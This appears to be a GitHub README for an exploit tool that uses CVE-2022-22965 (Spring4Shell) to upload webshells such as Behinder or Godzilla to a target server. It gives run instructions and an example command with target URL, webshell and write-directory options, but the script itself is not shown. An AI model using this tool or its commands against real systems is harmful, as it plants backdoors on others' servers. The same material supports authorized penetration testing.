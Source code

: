 # Spring_onekeyshell
Upload the webshell such as behinder or godzilla to target by CVE-2022-22965
## Instructions
1. download spring_onekeyshell.py
2. run the script:
- `--url` target url
- `--ws` WebShell File [example.jsp]
- `--file` File to write to [no extension]
- `--dir` Directory to write to. Suggest using "webapps/[appname]" of target app
```
python spring_onekeyshell.py --url http://localhost:8080/helloworld --ws /tmp/webshell.jsp --file vuln --dir webapps/ROOT
```
## Reference：
https://github.com/reznok/Spring4Shell-POC
